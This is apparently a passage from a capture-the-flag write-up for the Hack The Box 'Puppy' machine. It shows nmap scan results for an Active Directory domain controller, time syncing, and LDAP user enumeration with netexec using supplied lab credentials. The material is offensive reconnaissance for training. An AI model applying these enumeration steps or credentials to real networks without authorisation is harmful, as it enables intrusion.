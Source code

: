 ```
636/tcp   open  tcpwrapped
2049/tcp  open  nlockmgr      1-4 (RPC #100021)
3260/tcp  open  iscsi?
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
58358/tcp open  msrpc         Microsoft Windows RPC
58368/tcp open  msrpc         Microsoft Windows RPC
58382/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-08-27T02:05:25
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 1d07h02m26s
```
These results give us essential information about the server. It is running a classic AD environment.

Before moving any further, it is important to fix our clock skew by syncing our time with the domain controller.
```
sudo ntpdate 10.10.11.70
````

And finally add the domain and domain controller to our `/etc/hosts`.
```
echo '10.10.11.70  puppy.htb dc.puppy.htb' | sudo tee -a /etc/hosts
```

-------

With basics set up, we can now enumerate users, their relations and the rights the users have. We already have the credentials of an account - `levi.james:KingofAkron2025!`.

### LEVI.JAMES

Using Netexec, we are able to connect to the AD through LDAP and we use this to pull a list of active domain users.

```
nxc ldap puppy.htb -u  levi.james -p 'KingofAkron2025!' --users
```
```
Administrator
Guest
krbtgt
levi.james
ant.edwards
adam.silver
jamie.williams
steph.cooper
steph.cooper_adm
```
